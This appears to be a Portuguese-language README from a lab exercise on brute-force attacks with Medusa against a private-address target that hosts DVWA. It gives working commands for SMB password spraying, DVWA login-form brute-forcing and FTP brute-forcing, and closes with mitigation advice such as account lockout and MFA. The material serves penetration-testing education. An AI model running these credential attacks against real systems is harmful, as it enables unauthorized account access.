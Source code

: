 ### Ataques com Medusa

**Medusa** é uma ferramenta de força bruta rápida, paralela e modular.

**Flags Comuns:**
- `-h [host]`: Especifica o IP do alvo.
- `-U [arquivo]`: Aponta para o arquivo com a lista de usuários.
- `-P [arquivo]`: Aponta para o arquivo com a lista de senhas.
- `-M [módulo]`: Define o serviço a ser atacado (ex: `smbnt`, `http`, `ftp`).
- `-t [threads]`: Número de tentativas paralelas (threads).
- `-T [total]`: Número total de alvos a serem testados em paralelo.

**1. Password Spraying em SMB**
```bash
medusa -h 192.168.56.102 -U wordlists/smb_users.txt -P wordlists/senhas_spray.txt -M smbnt -t 2 -T 50
```
- **Descrição:** Tenta autenticar em um serviço SMB (`-M smbnt`) usando uma lista de usuários (`-U`) contra uma lista pequena de senhas (`-P`). É uma técnica para evitar bloqueios de conta.

**2. Força Bruta em Formulário Web (DVWA)**
```bash
medusa -h 192.168.56.102 -U wordlists/users.txt -P wordlists/pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6
```
- **Descrição:** Realiza um ataque de força bruta em uma página de login web.
  - `-m PAGE`: Define a página de login.
  - `-m FORM`: Define a estrutura do formulário, onde `^USER^` e `^PASS^` são substituídos pelos valores das wordlists.
  - `-m 'FAIL=...'`: Especifica o texto que indica uma tentativa de login falha.

**3. Força Bruta em FTP**
```bash
medusa -h 192.168.56.102 -U wordlists/users.txt -P wordlists/pass.txt -M ftp -t 6
```
- **Descrição:** Tenta descobrir credenciais de acesso para o serviço FTP (`-M ftp`) no alvo.

### Validação de Acesso

| Comando | Descrição |
| :--- | :--- |
| `ftp 192.168.56.102` | Após encontrar uma credencial válida com o Medusa, este comando inicia um cliente FTP para se conectar ao alvo e validar o acesso. |

---

## 🛡️ Recomendações de Mitigação

1.  **Políticas de Senhas Fortes:** Exigir senhas complexas, com comprimento mínimo e variedade de caracteres.
2.  **Bloqueio de Contas:** Implementar um mecanismo que bloqueie contas temporariamente após um número definido de tentativas de login falhas.
3.  **Autenticação Multifator (MFA):** Adicionar uma segunda camada de verificação para dificultar o acesso não autorizado, mesmo que a senha seja descoberta.
4.  **Monitoramento e Alertas:** Manter logs de tentativas de acesso e configurar alertas para atividades suspeitas, como um grande volume de falhas de login.
5.  **CAPTCHA:** Utilizar em formulários web para diferenciar usuários humanos de bots automatizados.
